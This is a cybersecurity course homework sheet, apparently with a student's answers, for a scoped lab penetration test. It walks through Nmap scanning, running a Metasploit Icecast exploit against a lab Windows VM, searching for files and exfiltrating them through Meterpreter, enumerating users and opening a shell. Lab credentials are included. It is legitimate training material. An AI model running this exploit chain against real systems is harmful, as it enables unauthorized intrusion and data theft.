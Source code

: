 ## Homework: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

#### Setup 

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer. 
  - Log onto the DVW10 machine (credentials `IEUser:Passw0rd!`) and wait for the Icecast application to popup.
  - Then click `Start Server`. 

#### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.
 
- If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.
 
#### Scope
 
- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.
 
- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited. 
 
- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.
 
- Since you've already been provided access to the network, OSINT won't be necessary.
 
#### Lab Environment
 
For this week's homework, please use the following VM setup:
 
- Attacking machine: Kali Linux `root:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`

**NOTE**: You will need to login to the **DVW10** VM and start the `icecast` service prior to beginning this activity using the following procedure:

- After logging into DVW10, type "icecast" in the Cortana search box and hit **Enter**.
- The icecast application will launch.
- Click on **Start Server**.
- You are now ready to being the activity.

#### Deliverable

Once you complete this assignment, submit your findings in the following document: 

- [Report.docx](Resources/Report.docx)
 
### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: nmap -sS -sV -O 192.168.0.20
 
 ![image](https://user-images.githubusercontent.com/93744925/162007473-6d7d80f2-25e6-47eb-8738-8f74457721cd.png)


2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: ssearchsploit icecast
 

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > Answer: msfconsole
 
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: search icecast

 

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: use 0

 

5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > Answer: set rhost 192.168.0.20
 
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: exploit or run
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: search -f *secretfile*.txt

 

 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer: search -f *recipe*.txt

 

    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:

      > Answer: download 'c:\\Users\IEUser\Documents\Drinks.recipe.txt'
 
 

8. You can also use Meterpreter's local exploit suggester to find possible exploits.

   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

 
#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: run post/windows/gather/enum_logged_on_users

 

B. Open a Meterpreter shell. 
 
  > Answer: shell
 
C. Run the command that displays the target's computer system information:

   > Answer: sysinfo
 

---

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.
